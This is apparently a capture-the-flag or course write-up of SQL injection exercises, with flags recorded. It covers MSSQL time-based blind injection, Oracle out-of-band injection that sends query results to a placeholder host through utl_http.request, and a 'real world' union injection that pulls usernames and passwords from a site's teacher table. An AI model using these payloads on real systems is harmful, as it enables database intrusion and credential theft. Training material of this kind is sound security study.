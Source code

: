 **Flag: `CTF{0r4cl3_61mm3_error}`**

## 0x0A MSSQL TIME based SQLi Practice

1. `http://127.0.0.1:8089/?id=1 if 1=1 waitfor delay '0:0:10'`
    - ![](https://i.imgur.com/qY4oq7Z.png)
2. `http://127.0.0.1:8089/?id=1 if (SELECT TOP 1 ascii(substring(content, 1, 1)) FROM (SELECT Top 2 * FROM Flags ORDER BY content ASC)x) = 67 waitfor delay '0:0:3'`
    - ![](https://i.imgur.com/c3nOZoC.png)

**Flag: `CTF{a}`**

## 0x0B Oracle Out-of-Band based SQLi Practice

1. `http://127.0.0.1:8090/?id=2-utl_http.request('http://x.x.x.x/boikishere')`
    - ![](https://i.imgur.com/Kqv8DyN.png)
2. `http://127.0.0.1:8090/?id=2-utl_http.request('http://x.x.x.x/' || (SELECT user FROM dual))`
    - ![](https://i.imgur.com/2gz1kbH.png)
3. `http://127.0.0.1:8090/?id=2-utl_http.request('http://x.x.x.x/' || ((SELECT content FROM (SELECT content FROM flags) WHERE ROWNUM < 3) MINUS (SELECT content FROM (SELECT content FROM flags) WHERE ROWNUM < 2)))`
    - ![](https://i.imgur.com/oR6oMMt.png)

**Flag: `CTF{0r4cl3_61mm3_00b}`**

## 0x0C Real World Challenge

1. Google `cei8a` and log in
    - ![](https://i.imgur.com/JkTd6fQ.png)
2. Found `teacher.php`'s parameter `td` is prone to SQL Injection
3. By testing `teacher.php?td=wa'||'ng` and `teacher.php?td=wang' and 2=1--`, we guess it's `PostgreSQL` or `SQLite`
4. Get tables' names: `teacher.php?td=' union select null,table_name,null,null,null,null,null,null,null,null,null,null from information_schema.tables where table_catalog=current_database() and table_schema='public' limit 1 offset 0`
5. A `union` based injection is also feasible: `teacher.php?td=' union select '1',null,'3',version(),current_database(),'6',current_user,username,passwd,'10','11','12' from teacher limit 1 offset 0--`, we get the flag

**Flag: `FLAG{Easy_blacbox_postgresql_injection:)}`**

## 0x0D A2 - Practice 1

![](https://i.imgur.com/s9gYaSz.png)

**Flag: `CTF{f0r637_my_p455w0rd_l0l}`**

## 0x0E A2 - Practice 2

![](https://i.imgur.com/Qi51jJk.png)
